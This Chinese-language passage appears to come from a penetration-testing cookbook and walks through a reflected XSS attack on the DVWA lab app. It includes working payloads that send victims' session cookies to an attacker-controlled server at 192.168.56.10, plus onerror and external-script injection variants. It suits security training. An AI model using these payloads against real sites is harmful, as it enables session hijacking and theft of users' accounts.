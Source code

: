 1.  现在，返回到正在运行 Python 服务器的终端，查看它如何接收到新的请求：

![](img/174cb73f-6f7d-4623-a2a3-82a299c6f092.png)

请注意，URL 参数（在`GET`之后）包含了用户的会话 cookie。

# 它是如何工作的...

在像 XSS 这样的攻击中，需要用户交互才能利用漏洞，攻击者通常无法控制用户何时点击恶意链接或执行导致应用程序受到威胁的操作。在这种情况下，攻击者应该设置一个服务器来接收受害者发送的信息。

在这个示例中，我们使用了 Python 提供的`SimpleHTTPServer`模块，但更复杂的攻击显然需要更复杂的服务器。

之后，进入 DVWA 并在名称文本框中输入有效负载，模拟用户点击攻击者发送的链接`http://192.168.56.11/dvwa/vulnerabilities/xss_r/?name=Bob<script>document.write('<img src="http://192.168.56.10:88/'+document.cookie+'">');</script>`。一旦用户的浏览器加载页面并将有效负载解析为 JavaScript 代码，它将尝试访问存储在攻击者服务器上的图片（`http://192.168.56.10:88`，即我们的 Kali 虚拟机），其中 cookie 的值作为文件名。攻击者的服务器将注册此请求并返回 404 Not Found 错误；然后，攻击者可以获取记录的会话 cookie，并利用它劫持用户的会话。

# 另见

在这个示例中，我们使用了`<script>`标签将 JavaScript 代码块注入到页面中；然而，这并不是我们唯一可以使用的 HTML 标签，特别是在 HTML5 的新增标签中，例如`<video>`和`<audio>`。让我们看看一些其他的有效负载，看看如何利用 XSS 漏洞：

+   在带有`src/source`参数的标签（如`<img>`、`<audio>`和`<video>`）上生成错误事件：

```
<img src=X onerror="javascript:document.write('<img src=&quot;http://192.168.56.10:88/img'+document.cookie+'&quot;>')">
```

或者，使用以下方法：

```
<audio><source onerror="javascript:alert('XSS')">
```

或者，这也是一种方法：

```
<video><source onerror="javascript:alert('XSS')">
```

+   注入一个加载外部 JavaScript 文件的`<script>`标签：

```
<script src="http://192.168.56.10:88/malicious.js">
```

+   如果注入的文本作为 HTML 标签中的值，并被引号（`"`）包围，例如`<input value="injectable_text">`，我们可以关闭引号并向代码中添加事件。例如，将`injectable_text`替换为以下代码。注意，最后一个引号没有关闭，因此我们可以使用 HTML 代码中已存在的那个引号：
